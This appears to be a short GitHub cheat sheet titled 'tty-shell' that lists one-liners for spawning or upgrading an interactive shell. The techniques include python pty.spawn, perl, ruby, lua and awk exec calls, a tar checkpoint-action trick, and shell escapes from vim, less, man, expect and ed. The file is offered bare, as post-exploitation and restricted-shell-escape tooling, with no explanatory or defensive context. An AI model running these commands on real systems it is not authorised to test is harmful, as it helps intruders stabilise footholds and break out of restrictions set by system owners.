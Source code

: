 # tty-shell

    ssh ruser@127.0.0.1 -t "bash --noprofile"

    python -c "import os; os.system('/bin/sh')"
    python -c "import pty; pty.spawn('/bin/bash')"

    echo "import pty; pty.spawn('/bin/bash')" > /tmp/asdf.py
    python /tmp/asdf.py

    /bin/sh -i

    perl -e 'exec "/bin/sh";'

    ruby -e 'exec "/bin/sh"'

    lua -e 'os.execute("/bin/sh")'

    awk 'begin {system("/bin/sh")}'

    tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=sh

    # vim
    :!bash
    :set shell=/bin/bash:shell

    :set shell=/bin/bash
    :shell

    # more, less, man
    !sh

    # expect
    spawn sh

    # ed
    !'/bin/sh'
